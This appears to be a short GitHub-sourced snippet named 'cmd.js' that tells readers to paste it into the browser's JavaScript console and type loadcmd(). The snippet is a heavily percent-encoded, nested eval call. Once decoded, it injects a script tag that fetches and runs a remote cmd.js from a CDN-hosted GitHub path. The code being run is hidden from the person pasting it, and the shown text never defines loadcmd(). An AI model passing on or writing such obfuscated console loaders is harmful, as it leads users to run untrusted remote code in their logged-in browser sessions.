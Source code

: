 # cmd.js
# after copy the code below and pasting it into js console, type loadcmd()


eval(decodeURIComponent('%76%61%72%20%73%63%72%69%70%74%20%3d%20%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%32%37%27%29%29%29%3b%20%73%63%72%69%70%74%2e%73%72%63%20%3d%20%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%33%25%36%34%25%36%65%25%32%65%25%36%61%25%37%33%25%36%34%25%36%35%25%36%63%25%36%39%25%37%36%25%37%32%25%32%65%25%36%65%25%36%35%25%37%34%25%32%66%25%36%37%25%36%38%25%32%66%25%36%61%25%37%33%25%36%38%25%36%66%25%37%33%25%37%34%25%36%39%25%36%65%25%36%37%25%32%66%25%37%34%25%36%35%25%36%64%25%37%30%25%34%30%25%33%31%25%32%65%25%33%30%25%32%65%25%33%31%25%32%66%25%36%33%25%36%64%25%36%34%25%32%65%25%36%61%25%37%33%25%32%37%27%29%29%3b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%65%76%61%6c%28%64%65%63%6f%64%65%55%52%49%43%6f%6d%70%6f%6e%65%6e%74%28%27%25%32%37%25%36%38%25%36%35%25%36%31%25%36%34%25%32%37%27%29%29%29%5b%30%5d%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%73%63%72%69%70%74%29%3b%20'));
